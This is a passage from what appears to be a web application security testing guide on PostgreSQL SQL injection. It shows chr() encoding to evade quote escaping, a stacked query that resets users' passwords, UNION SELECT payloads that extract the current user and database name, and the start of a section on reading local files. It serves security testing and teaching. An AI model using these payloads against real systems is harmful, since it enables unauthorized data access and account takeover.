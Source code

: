 -   CREATE function pg\_sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' LANGUAGE 'C' STRICT

### Single Quote unescape

Strings can be encoded, to prevent single quotes escaping, by using chr() function.

-   chr(n): Returns the character whose ASCII value corresponds to the number n
-   ascii(n): Returns the ASCII value which corresponds to the character n

Let's say you want to encode the string 'root':

`  select ascii('r')`\
`  114`\
`  select ascii('o')`\
`  111`\
`  select ascii('t')`\
`  116`

We can encode 'root' as:

` chr(114)||chr(111)||chr(111)||chr(116)`

**Example:**

`  http://www.example.com/store.php?id=1; UPDATE users SET PASSWORD=chr(114)||chr(111)||chr(111)||chr(116)--`

### Attack Vectors

#### Current User

The identity of the current user can be retrieved with the following SQL SELECT statements:

` SELECT user`\
` SELECT current_user`\
` SELECT session_user`\
` SELECT usename FROM pg_user`\
` SELECT getpgusername()`

**Examples:**

` http://www.example.com/store.php?id=1 UNION ALL SELECT user,NULL,NULL--`\
` http://www.example.com/store.php?id=1 UNION ALL SELECT current_user, NULL, NULL--`

#### Current Database

The built-in function current\_database() returns the current database name.

**Example**:

` http://www.example.com/store.php?id=1 UNION ALL SELECT current_database(),NULL,NULL--`

#### Reading from a file

PostgreSQL provides two ways to access a local file:

-   COPY statement
-   pg\_read\_file() internal function (starting from PostgreSQL 8.1)
